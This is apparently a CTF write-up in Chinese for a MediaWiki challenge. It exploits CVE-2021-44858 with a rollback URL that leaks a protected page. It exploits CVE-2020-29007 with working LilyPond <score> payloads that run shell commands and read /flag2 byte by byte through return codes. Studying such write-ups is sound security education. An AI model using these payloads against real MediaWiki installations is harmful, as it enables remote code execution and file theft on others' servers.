## Flag 1

首先通过 google 搜索 mediawiki cve-2020 和 cve-2021 可以发现, 能利用的就那么几个, 挨个试一试就可以. 可以参考以下网页:

https://www.mediawiki.org/wiki/2021-12_security_release/FAQ

https://www.cve.org/CVERecord?id=CVE-2021-44858

https://phabricator.wikimedia.org/T297574

最后获取 flag 的 url 为:

https://prob07-lrmazl2i.geekgame.pku.edu.cn/index.php/?action=rollback&from={{:Flag}}

## Flag 2

查看版本页面可以发现其只安装了 Score 插件, 且 Score 插件版本是 2019 年的, 同时提示我们该插件跟 LilyPond 有关, 我们搜索相关资料可以找到 [CVE-2020-29007](https://phabricator.wikimedia.org/T257062). 根据描述和测试, 我们可以通过一个 `<score>` 标签进行 RCE, 但是没有输出, 能得到的信息只有一个返回值乘以 256 的结果.

例如, 使用

```html
<score lang="lilypond">\new Staff <<{c^#
  (number->string (system "return 233"))
}>></score>
```

将会输出![](assets/mediawiki-1.png)

我们可以通过将 flag 逐字节编码进返回值的方法分多次读取, payload 如下 (将 `x` 替换成要读取的字节):

```html
<score lang="lilypond">\new Staff <<{c^#
  (number->string (
     system "return $(printf %d $(cat /flag2 | cut -b x | tr -d '\n' | od -An -t uC))"
  ))
}>></score>
```
